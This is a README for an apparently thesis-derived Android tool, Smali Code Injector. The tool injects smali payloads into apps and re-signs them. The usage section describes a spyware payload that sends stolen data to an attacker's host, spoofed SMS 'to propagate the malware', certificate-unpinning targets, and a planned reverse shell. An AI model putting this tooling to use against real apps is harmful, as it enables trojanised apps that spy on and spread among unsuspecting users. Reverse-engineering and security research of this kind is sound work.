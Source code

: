 ![SCI](images/sci_logo.jpg)
# Smali Code Injector
## Automate assembly code (**smali**) injection within Android applications.

The initial ambition of this project was to automate stack trace injections within Android applications in order to facilitate my master thesis work. Being able to log and display applications' runtime method calls along with their returned value greatly helps in reverse engineering complex applications by providing an insight into their logic and workflow. 

Lately, new features and payloads were added in an attempt to create a framework fully capable of injecting any type of assembly code. Users familiar with Android development could easily implement compatible payloads. SCI is in charge of automating low level operation such as registers allocation, dependancie, type, etc. 

**Tampering Android applications has never been that easy!**

More information about Android reverse engineering can be found at:

<http://www.n00blinuxhacker.com/android-pentesting-reverse-engineering-android-app.html>

### Automation for a simpler world
Code injections are performed at the assembly level (smali files) which make the process of differenciation between legit and modified applications complicated and time consuming - it would require considerable forensic work such as network, permissions, signature and code analysis -.

A high level overview of the steps involved during code injection is:
1. Disassembling the application
2. Collecting relevant information about the application. 
	* Classes name.
	* Methods name.
	* Registers number and type.
	* etc.
3. Editing the AndroidManifest.xml to add permissions, services and broadcastReceivers (depending on the payload requirements).
4. Injecting and tweaking up the selected payload within the targeted method(s).
5. Reassembling and signing the app with a valid self-signed certificate.

## Usage
### Examples:
Generic usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p [payload] -rh [remote_host] -ppg [spoofed_SMS]
	[-a]: 	applicaion to modify.
	[-t]: 	directory/file where to recursively perform the injection. If this argument is absent, the injection is performed within the whole app.
	[-k]: 	keywords to filter on. Ex: if -k "SSL,X509TrustManager" the payload will only be injected on the method containing SSL in their declaration header - **help for certificate unpinning** -.
	[-p]: 	payload to inject. 
	[-ppg]:	spoofed SMS content to send - **to propagate the malware** -.
	[-rh]:  IP address of the attacker/script for sending the stolen data.

Spyware usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p *spyware* -rh [script] -ppg [spoofed_SMS]
    
    [-ppg]:	link with the malicious app. 
	[-rh]: 	IP of the remote receiver (or URL of the file responsible for the JSON data handling and parsing (a script example can be found under /scripts/handler.php - do not forget to change the settings to connect to your DB -).

	**Tip**: Inject the Spyware on the **onCreate()** method of the main activity.

Logger usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p *logger*

	**Note**: Connect your phone to your computer and use the following command to filter and print out only the modified app runtime method calls:

		$ adb logcat | grep "::trace

Identify the main activity (works with obfuscated app):

		$ python3 sci.py -a [apps] -s
		
Display the help menu:

		$ python3 sci.py -h

## Dependencies
### Third-party libraries
#### progressbar:
You need to install the progressbar package available at the link below. Alternatively, you can also comment out every lines linked to the use of this library in the **payload.py** file.
	
<http://code.google.com/p/python-progressbar/>

Installation on Linux (debian):

	$ sudo apt-get install python3-progressbar -y

## Future Improvements
* Add new payloads (reverse shell).
* Source code optimisation.

## Project Information
This framework was developed in the context of my master thesis work in July 2015.	

## Licenses
### Smali Code Injector:
   Copyright (C) 2015 Alexandre Teyar

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### Apktool:
   Copyright (C) 2010 Ryszard Wiśniewski 

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### python-progressbar:
   Copyright (C) 2005 Nilton Volpato

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License.

### smali/baksmali:
   Copyright (c) 2010 Ben Gruver (JesusFreke)
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions
are met:

1. Redistributions of source code must retain the above copyright
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright
   notice, this list of conditions and the following disclaimer in the
   documentation and/or other materials provided with the distribution.
3. The name of the author may not be used to endorse or promote products
   derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR
IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES
OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED.
IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY DIRECT, INDIRECT,
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT
NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE,
DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY
THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF
THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
